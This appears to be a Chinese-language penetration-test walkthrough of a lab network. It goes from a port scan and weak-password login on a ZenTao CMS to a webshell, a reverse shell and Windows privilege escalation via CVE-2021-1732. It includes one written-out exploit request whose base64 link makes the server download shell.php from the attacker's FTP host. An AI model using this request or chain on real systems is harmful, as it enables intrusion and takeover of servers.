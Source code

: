 使用`portscan`模块指定一部分常用端口，进行扫描。发现了`20.66`

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YdUxL134xiakzfbvgQsz19fCZEia9FI3q2LnnL2Yb4qciaUISbzQDicGG4g/640?wx_fmt=png)

同样使用`nmap`的端口扫描，发现开放了`3306`和`8080`端口

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YmV9VELaBdMNSs2Qb0NQodwuY2qRSIyUWLTBTktEsUzTvC5icLVfdnvQ/640?wx_fmt=png)

打开`8080`是一个`禅道cms`。这里也是用了注入漏洞，文件读取都未成功：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YBm696QiatTzpRz1e78xWqnhoxiaMy9yfUrCwqhSnXdnxYfLric5IukKhw/640?wx_fmt=png)

然后查看文档，使用弱口令登录后台：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YIibJrDkTDcSAibBRBxB1OQSlfmToGO7deWT0mm6O2aqYGicjQkTkMWeGg/640?wx_fmt=png)

使用后台的任意文件下载漏洞获取`shell`，首先启动一个 web 服务：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YDlUic3VsaVg2ic77xich028xpahOxwUAXR4hic5hLZdBVtFEt4W5Y70Cfg/640?wx_fmt=png)

```
/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==
```

link 位置是 base64 编码的地址

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YSqUbJJGkPQOsmnfFZAy3kJ27Rib8No1nsccLWTGqm2uHWc1aDMPAYRw/640?wx_fmt=png)

然后正常访问到下载的木马文件

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YkRo1KtOWt7TTiaibOUUJL7wgT6PNVxAVpA0gqd13xDicXDRibdXjztc6GA/640?wx_fmt=png)

获取到之后直接就是 root 权限。在这里尝试了多次正向失败，关闭本地防火墙然后进行反弹 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YTV4OfXKyY1cKfqTcXjf6cEowgdfvFOfKcMf732qE1xNre1NdDEWycg/640?wx_fmt=png)

使用监听：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YbHxzFulvRlRPsOoIXG37sKyqzQwC0GMrlPxHLe2SPH7n6uMpD2J4lA/640?wx_fmt=png)

反弹成功：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6Yuf0mMZfGZRmo3ViaNpTY2suw0DkhF8gD1Q9ogsSzCibWmeARa17Mp8rw/640?wx_fmt=png)

查看进程，当前机器使用了火绒：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6Y2DYYRVPibFfxHPnN4OuGMC5sF7orJEWsNxPibNsyV44KiahS6KU1CicayA/640?wx_fmt=png)

寻找提权的方式，使用`systeminfo`命令，将结果复制到网站：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6YiayANJAEvKjlCib5wxR6KYNVtTeSt5ZT2K6b8KaBWduVQJAFrzic5mJ8Q/640?wx_fmt=png)

最终使用了`CVE_2021_1732_win32k`这个提权工具，多执行几次就能成功，我也是看作者这样做的：

![](https://mmbiz.qpic.cn/mmbiz_png/HficxWTTwt1DMlOYnZNTcpia3Ag7Mx5z6Ybrwc8PTssdtHxrFkwicUQUGicNsGhmBCrhss5ciaj8pJbtwDYtDhLBB3w/640?wx_fmt=png)
